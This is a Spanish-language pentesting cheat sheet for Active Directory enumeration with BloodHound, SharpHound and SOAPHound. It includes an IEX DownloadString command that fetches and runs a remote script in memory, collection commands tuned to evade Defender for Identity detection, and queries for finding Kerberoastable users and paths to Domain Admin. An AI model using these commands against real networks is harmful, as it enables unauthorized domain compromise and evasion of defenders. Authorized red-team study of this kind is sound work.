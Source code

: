 # BloodHound 

Tags: #AD #BloodHound #SharpHound #SOAPHound 

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell 
❯ Import-Module .\SharpHound.ps1       # Importar el modulo, tambien se puede hacer con el '.exe'

❯ Invoke-BloodHound -CollectionMethod All
```

```powershell
# Importar el modulo en memoria
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/SharpHound.ps1') 

❯ Invoke-BloodHound -CollectionMethod All      # Recolectar la data 

# Suministrar datos a BloodHound 
❯ C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SharpHound.exe -args --collectionmethods All   

# Para hacer una recolección sigilosa, remover métodos ruidosos de recolección como RDP,DCOM, PSRemote y LocalAdmin
❯ C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SharpHound.exe -args --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets,CertServices --excludedcs 

Notas:
	1. Usar 'Excludedcs' para evitar la detección MDI
	2. Remover 'CertServices collection' cuando se use BloodHound Legacy 
```

## SOAPHound 

* [SOAPHound](https://github.com/FalconForceTeam/SOAPHound)

```powershell 
SOAPHound es más sigiloso. El se comunica con Active Directory Web Services (ADWS - Puerto 9389) en l;ugar de enviar peticiones LDAP como lo haría el AD Module
	- Casi ninguna detección basada en la red  (MDI)
	- Recupera info sobre todos los objetos (objectGuid=*) y sus procesos. Esos significa peticiones limitadas a LDAP - Menos posobilidad de detección en puntos finales 


# Construir un cache que contiene info básica de los objetos de dominio  
❯ SOAPHound.exe --buildcache -c C:\AD\Tools\cache.txt   

# Recolectar data compatible con BloodHound 
❯ SOAPHound.exe -c C:\AD\Tools\cache.txt --bhdump -o C:\AD\Tools\bloodhound-output --nolaps  
```

## BloodHound Community Edition 

* [Bloodhound-Community-Install](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart)

```powershell
❯ sudo docker-compose -f docker-compose.yml up -d   # Iniciar BloodHound con Docker despues de reiniciar Kali
❯ sudo docker-compose -f docker-compose.yml down    # Apagar BloodHound 
❯ bloodhound-cli resetpwd                           # Resetear la password 

❯ http://127.0.0.1:8080/ui/login         # Ingresar a BloodHound Community por la web               

Notas: 
	1. Si es la primera vez que sehace mirar el enlace de instalación y seguir las instrucciones  
	2. La instalción es por Docker por lo que al iniciar el sistema se debe de volver a iniciar 'BloodHound'
```

```bash  
Enumerar lo siguiente en BloodHound usando la pestaña de 'CYPHER':
	1. 'All Domain Admins'
	2. 'Map domains trusts'
	3. 'Principal with DCSync privileges'
	4. 'All Kerberoastable users'
	5. 'AS-REP Roastable users (DontReqPreAuth)'
	6. 'Shortest paths to Domain Admins'
	7. 'Unsconstrained Delegation'


Una vez obtenido un usuario:
	1. Agregar la opción 'Mark User as Owned'
		- Seleccionar el usuario y dar click en 'Inbound Object Control' para mostrar quien tiene control sobre el objeto seleccionado 
		- Seleccionar el usuario y dar click en 'Outbound Object Control' para mostrar sobre que objetos tiene control el usuario comprometido 
```